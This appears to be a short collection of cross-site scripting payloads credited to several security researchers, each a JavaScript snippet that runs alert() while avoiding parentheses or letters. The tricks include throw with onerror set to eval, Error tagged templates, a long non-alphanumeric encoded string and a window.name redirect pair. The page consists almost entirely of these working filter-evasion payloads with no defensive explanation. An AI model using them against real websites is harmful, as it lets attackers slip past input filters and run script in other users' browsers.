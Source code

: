 ----

Only Firefox [h43z](https://twitter.com/h43z)

    throw onerror=eval,SyntaxError`alert\x2823\x29` 

----

Only Firefox [h43z](https://twitter.com/h43z)

    throw onerror=eval,Error`alert\x2823\x29`

----

[h43z](https://twitter.com/h43z)

    throw Uncaught=onerror=eval,e=Error`*/;alert\x2823\x29`,e.name='/*',e

----

[Garethheyes](https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis)

    [][[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]][[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]]`$${[!{}+[]][+[]][+!+[]]+[!{}+[]][+[]][+!+[]+!+[]]+[!{}+[]][+[]][+!+[]+!+[]+!+[]+!+[]]+[!![]+[]][+[]][+!+[]]+[!![]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[+!+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]}$```//Function(alert(1))

----

[terjanq](https://twitter.com/terjanq/status/1126614389371621378)

xss_redir.html
```
window.name='1;var Uncaught=1;alert(23)';
location='xss_short.html';
```
xss_short.html
```
{onerror=eval}throw/0/+name
```

---
